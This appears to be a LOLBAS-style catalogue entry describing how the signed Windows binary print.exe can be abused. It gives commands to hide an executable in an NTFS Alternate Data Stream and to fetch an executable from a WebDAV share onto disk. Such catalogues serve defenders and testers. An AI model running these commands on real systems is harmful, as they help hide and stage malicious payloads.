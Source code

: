 ---
Name: Print.exe
Description: Download, Copy, Add ADS
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: print /D:C:\ADS\File.txt:file.exe C:\ADS\File.exe
    Description: Copy file.exe into the Alternate Data Stream (ADS) of file.txt.
  - Command: print /D:C:\ADS\CopyOfFile.exe C:\ADS\FileToCopy.exe
    Description: Copy FileToCopy.exe to the target C:\ADS\CopyOfFile.exe
  - Command: print /D:C:\OutFolder\outfile.exe \\WebDavServer\Folder\File.exe
    Description: Copy File.exe from a network share to the target c:\OutFolder\outfile.exe.
Full Path:
  - C:\Windows\System32\print.exe
  - C:\Windows\SysWOW64\print.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/Oddvarmoe/status/985518877076541440
  - https://www.youtube.com/watch?v=nPBcSP8M7KE&lc=z22fg1cbdkabdf3x404t1aokgwd2zxasf2j3rbozrswnrk0h00410
Notes: Thanks to Oddvar Moe - @oddvarmoe

